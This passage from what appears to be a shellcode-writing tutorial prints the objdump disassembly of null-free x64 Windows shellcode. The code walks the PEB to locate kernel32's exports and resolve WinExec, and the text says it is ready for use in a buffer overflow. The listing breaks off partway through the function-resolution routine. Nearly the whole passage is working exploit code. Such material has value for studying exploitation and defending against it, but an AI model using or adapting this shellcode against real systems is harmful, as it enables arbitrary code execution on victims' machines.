 **That's it!  All nulls have been removed!!  We can now get our newly fashioned shellcode (without nulls) and use in a buffer overflow, free of any worries regarding nulls.  Here's what the objdump output looks like for me:**

```nasm
winexec_nonulls.obj:     file format pe-x86-64

Disassembly of section .text:

0000000000000000 <main>:
   0:   48 83 ec 28             sub    $0x28,%rsp
   4:   48 83 e4 f0             and    $0xfffffffffffffff0,%rsp
   8:   48 31 c9                xor    %rcx,%rcx
   b:   65 48 8b 41 60          mov    %gs:0x60(%rcx),%rax
  10:   48 8b 40 18             mov    0x18(%rax),%rax
  14:   48 8b 70 10             mov    0x10(%rax),%rsi
  18:   48 8b 36                mov    (%rsi),%rsi
  1b:   48 8b 36                mov    (%rsi),%rsi
  1e:   48 8b 5e 30             mov    0x30(%rsi),%rbx
  22:   49 89 d8                mov    %rbx,%r8
  25:   8b 5b 3c                mov    0x3c(%rbx),%ebx
  28:   4c 01 c3                add    %r8,%rbx
  2b:   48 31 c9                xor    %rcx,%rcx
  2e:   66 81 c1 ff 88          add    $0x88ff,%cx
  33:   48 c1 e9 08             shr    $0x8,%rcx
  37:   8b 14 0b                mov    (%rbx,%rcx,1),%edx
  3a:   4c 01 c2                add    %r8,%rdx
  3d:   44 8b 52 14             mov    0x14(%rdx),%r10d
  41:   4d 31 db                xor    %r11,%r11
  44:   44 8b 5a 20             mov    0x20(%rdx),%r11d
  48:   4d 01 c3                add    %r8,%r11
  4b:   4c 89 d1                mov    %r10,%rcx
  4e:   48 b8 57 69 6e 45 78    movabs $0x90636578456e6957,%rax
  55:   65 63 90
  58:   48 c1 e0 08             shl    $0x8,%rax
  5c:   48 c1 e8 08             shr    $0x8,%rax
  60:   50                      push   %rax
  61:   48 89 e0                mov    %rsp,%rax
  64:   48 83 c4 08             add    $0x8,%rsp

0000000000000068 <kernel32findfunction>:
  68:   67 e3 17                jecxz  82 <FunctionNameNotFound>
  6b:   31 db                   xor    %ebx,%ebx
  6d:   41 8b 5c 8b 04          mov    0x4(%r11,%rcx,4),%ebx
  72:   4c 01 c3                add    %r8,%rbx
  75:   48 ff c9                dec    %rcx
  78:   4c 8b 08                mov    (%rax),%r9
  7b:   4c 39 0b                cmp    %r9,(%rbx)
  7e:   74 03                   je     83 <FunctionNameFound>
  80:   75 e6                   jne    68 <kernel32findfunction>

0000000000000082 <FunctionNameNotFound>:
  82:   cc                      int3

0000000000000083 <FunctionNameFound>:
  83:   51                      push   %rcx
  84:   41 5f                   pop    %r15
  86:   4c 89 f9                mov    %r15,%rcx
  89:   4d 31 db                xor    %r11,%r11
  8c:   44 8b 5a 24             mov    0x24(%rdx),%r11d
  90:   4d 01 c3                add    %r8,%r11
  93:   48 ff c1                inc    %rcx
  96:   66 45 8b 2c 4b          mov    (%r11,%rcx,2),%r13w
  9b:   4d 31 db                xor    %r11,%r11
```